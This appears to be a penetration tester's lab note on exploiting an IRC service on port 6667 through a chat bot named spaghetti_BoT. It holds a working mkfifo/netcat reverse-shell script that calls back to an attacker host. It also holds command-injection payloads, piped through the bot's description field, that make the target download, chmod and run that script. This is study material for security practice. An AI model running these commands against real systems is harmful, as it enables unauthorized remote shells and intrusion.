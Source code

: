 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
nc -nvv $TARGET 6667
```

If getting disconnects with this method, try [[Port 6667 - IRC#Hexchat]].

```bash - kali
nick kali
```

```bash - kali
user kali 8 * kali
```

```bash - kali
list
```

```bash - kali
join #mailAssistant
```

```bash - kali
privmsg spaghetti_BoT !command
```

```bash - kali
privmsg spaghetti_BoT !about
```

```bash - kali
echo '#!/bin/bash \nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f' > Shelly.sh
```

```bash - kali
python3 -m http.server 80
```

![[rlwrap]]

```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |wget $KALI:80/Shelly.sh
```

```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |chmod +x Shelly.sh
```

```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |./Shelly.sh
```

#### Hexchat
```bash - kali
sudo apt-get install hexchat
```

Add > Edit

![[Pasted image 20220320171011.png | 600]]

Once connected, go to Server > Channel list.

Enter a wildcard `*` in the search bar and hit search.

* May have to decrease the "channels with" value to 1.

![[Pasted image 20220320171419.png | 600]]


